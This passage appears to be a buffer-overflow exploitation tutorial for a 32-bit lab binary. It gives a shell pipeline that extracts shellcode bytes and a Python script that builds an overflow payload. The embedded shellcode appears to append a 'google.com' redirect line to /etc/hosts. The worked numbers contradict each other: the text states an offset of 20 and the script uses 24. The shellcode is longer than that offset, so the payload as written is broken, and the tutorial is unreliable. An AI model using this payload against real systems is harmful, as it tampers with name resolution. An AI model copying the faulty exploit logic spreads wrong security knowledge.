 Step 3: Extract the shellcode

We need to extract the raw bytes of our shellcode:

```bash
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

![](./images/Screenshot_4.png)

Explanation of the command:
- `objdump -d shellcode`: Disassembles the shellcode executable
- The rest of the command processes the output to extract just the bytes of the shellcode in a format we can use in our exploit

Step 4: Create an exploit script

We'll create a Python script to generate our payload:

![](./images/Screenshot_5.png)

First, we need to find the return address, offset, and buffer size:

```sh
objdump -d vuln.out | grep -A20 "<main>:"
```

![](./images/Screenshot_9.png)

From this output, we can determine:
- Buffer size is 16 bytes
- Offset is 20 bytes (16 bytes buffer + 4 bytes saved EBP)
- Return address is 0x0804842c (address of the instruction after the call to strcpy)

Now, let's create our exploit script:

```python
import struct

# Shellcode (paste the extracted shellcode here)
shellcode = b"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d"

# Buffer overflow parameters
buffer_size = 16
offset = 24  # 16 bytes buffer + 4 bytes saved EBP + 4 bytes alignment
return_address = struct.pack("<I", 0x0804842c)

# Construct the payload
payload = shellcode
payload += b"A" * (offset - len(shellcode))
payload += return_address

# Write payload to a file
with open("payload", "wb") as f:
    f.write(payload)

print("Exploit payload created successfully.")
```
